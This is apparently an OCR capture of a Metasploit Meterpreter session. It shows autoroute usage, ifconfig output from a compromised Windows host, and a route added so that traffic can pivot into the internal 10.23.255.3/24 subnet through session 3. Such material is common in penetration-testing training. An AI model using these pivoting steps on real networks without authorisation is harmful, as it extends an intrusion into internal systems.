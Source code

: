 ```bash
[*] run autoroute -s 10.10.10.1 # Netmask defaults to 255.255.255.0
[*] run autoroute -s 10.10.10.1/24 # CIDR notation is also okay
[*] run autoroute -p # Print active routing table
[*] run autoroute -d -s 10.10.10.1 # Deletes the 10.10.10.1/255.255.255.0 route
[*] Use the "route" and "ipconfig" Meterpreter commands to learn about available routes
[-] Deprecation warning: This script has been replaced by the post/windows/manage/autoroute module 

meterpreter > ifconfig

Interface 1 

============
Name : MS TCP Loopback interface
Hardware MAC : 00:00:00:00:00:00
MTU : 1520
IPv4 Address : 127.0.0.1

Interface 2

============

Name : Broadcom NetXtreme Gigabit Ethernet - McAfee NDIS Intermediate Filter Miniport
Hardware MAC : 00:11:25:40:77:8f
MTU : 1500
IPv4 Address : 10.23.255.3 IPv4 Netmask : 255.255.255.0

meterpreter > run autoroute -s 10.23.255.3 -n 255.255.255.0

[*] Adding a route to 10.23.255.3/255.255.255.0...
[+] Added route to 10.23.255.3/255.255.255.0 via 61.57.243.227 
[*] Use the -p option to list all active routes

meterpreter > run autoroute -p

Active Routing Table

====================

Subnet Netmask Gateway
------ ------- -------
10.23.255.3 255.255.255.0 Session 3

meterpreter > ifconfig

Interface 1 

============

Name : MS TCP Loopback interface
Hardware MAC : 00:00:00:00:00:00
MTU : 1520
IPv4 Address : 127.0.0.1

Interface 2 

============
Name : Broadcom NetXtreme Gigabit Ethernet - McAfee NDIS Intermediate Filter Miniport
Hardware MAC : 00:11:25:40:77:8f
MTU : 1500
IPv4 Address : 10.23.255.3 IPv4 Netmask : 255.255.255.0

meterpreter >
Background session 3? [y/N]
```